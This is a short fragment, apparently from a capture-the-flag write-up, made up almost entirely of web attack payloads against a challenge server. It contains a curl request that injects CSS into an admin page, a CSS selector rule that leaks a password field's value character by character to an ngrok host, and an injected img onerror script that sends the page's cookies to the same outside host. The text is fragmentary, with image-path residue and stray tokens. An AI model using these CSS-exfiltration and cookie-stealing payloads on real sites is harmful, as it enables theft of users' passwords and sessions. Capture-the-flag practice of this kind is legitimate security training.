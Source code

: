 curl 'http://chall.csivit.com:30256/admin' --data-raw 'url=http%3A%2F%2Fchall.csivit.com%3A30256%2Fview&color=red%3B%7D+.show+%7B+background-image%3A+url%28http%3A%2F%2F05a5450b7170.ngrok.io%2Fexfil%29%3B' \
  --compressed \
  --insecure

input[type=password][value^=P] ~ * { background-image: url(http://05a5450b7170.ngrok.io/exfil/P);

blue;} <></style><img src=x onerror="fetch('http://05a5450b7170.ngrok.io/' + btoa(document.cookie))"><style>